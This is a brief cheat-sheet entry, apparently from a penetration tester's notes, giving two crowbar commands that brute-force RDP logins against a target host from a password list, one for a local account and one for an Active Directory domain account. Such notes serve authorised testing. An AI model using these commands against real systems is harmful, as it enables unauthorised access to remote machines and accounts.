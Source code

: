 # crowbar

## brute force RDP
```bash
crowbar -b rdp -n 1 -s $IP/32 -u username -C ./passwords
```

### active directory domain joined
```
crowbar -b rdp -n 1 -s $IP/32 -u username@DOMAIN.local -C ./passwords
```
